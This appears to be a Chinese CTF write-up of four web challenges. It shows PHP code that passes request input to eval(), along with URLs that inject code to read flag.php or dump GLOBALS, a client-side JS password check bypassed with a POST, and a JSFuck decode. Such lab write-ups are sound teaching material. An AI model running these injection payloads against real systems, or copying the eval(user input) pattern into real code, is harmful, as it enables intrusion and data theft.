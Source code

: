 ### 本地包含
```php
include "waf.php";
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__);
```
仔细审计后，其实传入变量可以执行任意代码了，可以选择闭合代码或者直接执行。
`http://120.24.86.145:8003/?hello=file("flag.php")`
`http://120.24.86.145:8003/?hello=);print_r(file("flag.php")`
<br>

### 变量1
```php
error_reporting(0);
include "flag1.php";
highlight_file(__file__);
if(isset($_GET['args'])){
    $args = $_GET['args'];
    if(!preg_match("/^\w+$/",$args)){
        die("args error!");
    }
    eval("var_dump($$args);");
}
```
审计有两个关键点，只能输入字母下划线，`var_dump($$args)`
那么可以打印php中的所有变量，如果flag值存在一个变量中的话。
`http://120.24.86.145:8004/index1.php?args=GLOBALS`
查看，得到flag
<br>

### Web4
右键查看源码，看见一串JS代码，扔到控制台里面执行，并且把eval改为alert，得到代码
```js
function checkSubmit(){
  var a=document.getElementById("password");
  if("undefined"!=typeof a){
    if("67d709b2b54aa2aa648cf6e87a7114f1"==a.value)return!0;alert("Error");a.focus();return!1
  }
}
document.getElementById("levelQuest").onsubmit=checkSubmit;
```
审计后得知，其实只要发送一个post请求即可，因为这段js执行成功后也只是发送post请求
```
[POST DATA]
flag=67d709b2b54aa2aa648cf6e87a7114f1
```

<br>

### Web5
查看源代码，发现一段JSFuck编码后的字符串
直接扔到控制台运行，得到flag
